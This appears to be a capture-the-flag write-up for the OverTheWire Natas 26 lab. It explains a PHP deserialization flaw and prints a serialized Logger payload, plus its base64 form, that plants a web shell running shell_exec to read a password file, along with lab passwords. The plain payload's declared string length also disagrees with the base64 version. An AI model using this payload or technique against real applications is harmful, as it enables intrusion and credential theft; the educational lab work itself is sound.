

# Level 25 → Level 26

## Details
Username: `natas26`<br />
Password: `8A506rfIAXbKKk68yJeuTuRq4UfcK70k`<br />
URL:      http://natas26.natas.labs.overthewire.org

## Solution
It was an interesting challenge that took me some time. Let's see what happens there.




The strangest part of the code is the `Logger` class because **it has no use** in the rest of the code.

To understand the rest of the code you need to see an example first:


That is, the input is two points, and the output is a black image with a line represented by those two points. If we stay in the same session and insert more points, we will find that the output will be all the lines drawn so far. The information itself for each session is saved in a cookie in key named `drawing` (which grows with each new request).

Let's see how the information from `drawing` is interpreted on the server:


This means that the information is interpreted using a function called `unserialize()`. Let's read about it [here](https://www.php.net/manual/en/language.oop5.serialization.php) and [here](https://en.wikipedia.org/wiki/PHP_serialization_format).

In the first source there is a very important sentence:


It means only one thing. If we put in the `drawing` a coding of the `Logger` object **we can use its destructor!**

The second reading source (attached above) taught me how to code an object, and that's how I came up with the following coding:

```
O:6:"Logger":3:{s:7:"logFile";s:20:"img/hacked.php";s:7:"initMsg";s:10:"not in use";s:7:"exitMsg";s:59:"<?php echo shell_exec('cat /etc/natas_webpass/natas27'); ?>";}
```
* Files can only be created in the `img` folder.

In base64 it comes out:

```
Tzo2OiJMb2dnZXIiOjM6e3M6NzoibG9nRmlsZSI7czoxNDoiaW1nL2hhY2tlZC5waHAiO3M6NzoiaW5pdE1zZyI7czoxMDoibm90IGluIHVzZSI7czo3OiJleGl0TXNnIjtzOjU5OiI8P3BocCBlY2hvIHNoZWxsX2V4ZWMoJ2NhdCAvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PiI7fQ==
```

We will change the value of drawing to be the above base64 and make a GET HTTP request (without values in the coordinates)


I'm not sure why the password was written like that twice.. Maybe the first time is in the creation of the file and the second now in the current request. I'm really not sure... but hey! That's the password anyway!

## Password for the next level:
```
PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3
```
